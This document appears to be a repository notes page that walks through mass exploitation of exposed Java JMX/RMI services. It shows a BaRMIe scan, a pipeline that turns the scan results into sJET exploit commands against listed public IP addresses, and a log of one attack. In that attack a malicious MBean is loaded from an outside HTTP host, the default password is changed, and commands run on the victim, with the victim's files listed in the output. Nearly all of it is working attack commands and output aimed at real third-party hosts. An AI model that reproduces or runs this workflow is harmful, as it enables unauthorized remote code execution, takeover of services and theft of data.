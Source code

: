         
* BaRMIe Scan:


        $ java -jar ~/bin/BaRMIe_v1.01.jar --targets /tmp/mx | grep -v "An exception" -2 > ~/Scans/BaRMIe.log
        
        $ cat ~/Scans/BaRMIe.log| grep "javax.management.remote.rmi.RMIServerImpl_Stub" -9 | egrep --only-matching "t ([0-9]{1,4}\.[0-9]{1,4}\.[0-9]{1,4}\.[0-9]{1,4}:[0-9]{1,6})|Name:(.*)" | xargs | sed -r 's/t /\n\.\/sjet-install.sh /g' | sed -r 's/[ ]?Name:[ ]?/ /' | egrep '[0-9]{1,4}\.[0-9]{1,4}\.[0-9]{1,4}\.[0-9]{1,4}' | sed -r 's/roo$/root/g'
        ./sjet-install.sh 3.121.223.231:1099 karaf-root
        ./sjet-install.sh 188.40.110.130:1099 jmxrmi 
        ./sjet-install.sh 136.243.36.142:1099 jmxrmi 
        [....]
        
Sjet-Hack
-----------
* Hacking with modifed Sjet


        % ./sjet-install.sh 159.69.178.36:1099 jmxrmi         
        sJET - siberas JMX Exploitation Toolkit
        =======================================
        [+] Connecting to: service:jmx:rmi:///jndi/rmi://159.69.178.36:1099/jmxrmi
        2019-03-16 06:53:59+0100 [-] Connection made to RedirectRx
        [+] Connected: rmi://185.189.112.19  1
        [+] Loaded javax.management.loading.MLet
        [+] Loading malicious MBean from http://162.210.173.220:8080/mlet/
        [+] Invoking: javax.management.loading.MLet.getMBeansFromURL
        [+] Successfully loaded MBeanSiberas:name=payload,id=1
        [+] Changing default password...
        [+] Loaded de.siberas.lab.SiberasPayload
        [+] Successfully changed password

        sJET - siberas JMX Exploitation Toolkit
        =======================================
        [+] Connecting to: service:jmx:rmi:///jndi/rmi://159.69.178.36:1099/jmxrmi
        2019-03-16 06:54:08+0100 [-] Connection made to RedirectRx
        [+] Connected: rmi://185.189.112.19  2
        [+] Loaded de.siberas.lab.SiberasPayload
        [+] Executing command: whoami && dir
        bds
        backend-service.conf                    heapdump.20190225.131401.1166.0011.phd
        backend-service.jar                     javacore.20190214.090232.1167.0005.txt
        backend-service-previous.jar            javacore.20190214.090232.1167.0006.txt
        core.20190214.090232.1167.0001.dmp      javacore.20190214.090232.1167.0007.txt
        core.20190225.130541.1166.0001.dmp      javacore.20190214.090544.1167.0011.txt
        dynatrace-7.2                           javacore.20190225.130541.1166.0003.txt
        fridge-service.conf                     javacore.20190225.131330.1166.0007.txt
        fridge-service.jar                      javacore.20190225.131330.1166.0008.txt
        fridge-service-previous.jar             javacore.20190225.131401.1166.0012.txt
        heapdump.20190214.090232.1167.0002.phd  Snap.20190214.090232.1167.0008.trc
        heapdump.20190214.090232.1167.0003.phd  Snap.20190214.090232.1167.0010.trc
        heapdump.20190214.090232.1167.0004.phd  Snap.20190214.090544.1167.0013.trc
        heapdump.20190214.090544.1167.0012.phd  Snap.20190225.130541.1166.0004.trc
        heapdump.20190225.130541.1166.0002.phd  Snap.20190225.131330.1166.0009.trc
        heapdump.20190225.131330.1166.0005.phd  Snap.20190225.131330.1166.0010.trc
        heapdump.20190225.131330.1166.0006.phd  Snap.20190225.131415.1166.0013.trc
